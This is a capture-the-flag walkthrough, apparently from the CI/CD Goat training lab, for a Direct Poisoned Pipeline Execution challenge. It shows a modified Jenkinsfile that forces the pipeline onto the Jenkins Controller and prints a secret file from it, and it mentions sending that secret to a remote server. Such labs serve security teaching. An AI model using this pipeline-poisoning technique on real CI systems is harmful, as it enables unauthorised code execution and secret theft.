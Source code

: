[![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

[![CICD-SEC-5 Insufficient PBAC (Pipeline-Based Access Controls)](https://img.shields.io/badge/CICD--SEC--5-Insufficient%20PBAC%20(Pipeline%20Based%20Access%20Controls)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/insufficient-pbac-pipeline-based-access-controls/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Execute the _cheshire-cat_ pipeline on the Jenkins Controller by executing a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack, and get the secret which is stored in the Controller’s file system.


1. Clone the _Wonderland/cheshire-cat_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge5
    ```


3. In the Jenkinsfile, instruct the pipeline to run on the Controller by specifying its default label - `built-in`, and print _flag5_ to the console output (or send it to a remote server).

    ```groovy
    pipeline {
        agent {label 'built-in'}
        environment {
            PROJECT = "sanic"
        }

        stages {
            stage ('Install_Requirements') {
                steps {
                    sh 'cat ~/flag5'
                }
            }
        }

        post { 
            always { 
                cleanWs()
            }
        }
    }
    ```


4. Push the changes to the remote branch, and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.
![cheshire_cat](../images/cheshire_cat.png "cheshire_cat")
